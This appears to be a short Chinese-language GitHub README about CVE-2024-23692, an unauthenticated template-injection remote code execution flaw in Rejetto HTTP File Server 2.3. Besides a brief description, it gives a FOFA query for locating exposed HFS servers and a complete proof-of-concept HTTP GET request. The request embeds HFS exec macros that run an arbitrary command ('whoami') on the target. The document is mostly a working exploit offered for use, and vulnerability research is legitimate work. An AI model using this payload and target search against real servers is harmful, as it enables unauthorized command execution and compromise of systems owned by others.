

# CVE-2024-23692

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** HFS2.3远程代码执行漏洞


# 0x01 漏洞简介

Rejetto  HTTP File Server（HFS） 是一个轻量级的  HTTP 文件服务器 服务器，广泛用于文件共享和文件传输。CVE-2024-23692 漏洞是一个模板注入漏洞，允许远程、未经身份验证的攻击者通过发送特制的 HTTP 请求在受影响的系统上执行任意命令。

# 0x02 FOFA语法

```
app="HttpFileServer"
```

# 0x03 POC

```
GET /?n=%0A&cmd=whoami&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: HFS_SID_=0.590236319694668
```

